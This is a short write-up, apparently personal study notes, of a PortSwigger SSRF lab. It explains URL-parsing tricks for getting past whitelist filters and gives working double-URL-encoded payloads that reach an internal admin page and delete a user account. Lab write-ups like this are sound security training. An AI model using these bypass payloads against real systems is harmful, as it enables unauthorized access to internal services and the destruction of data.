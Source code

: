 ```yaml
---
tags: ["whitelist", "bypass"]
image: "img/Portswigger/SSRF.png"
---
```


## SSRF with whitelist-based input filters

Some applications only allow input that matches, begins with, or contains, a whitelist of permitted values. In this situation, you can sometimes circumvent the filter by exploiting inconsistencies in URL parsing.

The URL specification contains a number of features that are liable to be overlooked when implementing ad hoc parsing and validation of URLs:

- You can embed credentials in a URL before the hostname, using the `@` character. For example:

  `https://expected-host@evil-host`

- You can use the `#` character to indicate a URL fragment. For example:

  `https://evil-host#expected-host`

- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:

  `https://expected-host.evil-host`

- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
- You can use combinations of these techniques together.

## Challenge

--> In this challenge we have to bypass the SSRF protection and delete the carlos's account.

--> So i tried different things like using `@`,`#` and `.` between 2 hosts but it didn't worked because i was putting `localhost` after correct host. so after that i swapped the position and `http://localhost@stock.weliketoshop.net/admin` gave me internal server error

So i tried to use `#` also and i bypassed it with this payload :

```
http://%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%36%38%25%36%66%25%37%33%25%37%34%25%32%33@stock.weliketoshop.net/admin
```

--> To delete carlos's account i used this payload:

```
http://%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%36%38%25%36%66%25%37%33%25%37%34%25%32%33@stock.weliketoshop.net/admin/delete?username=carlos
```

And we solved the lab!
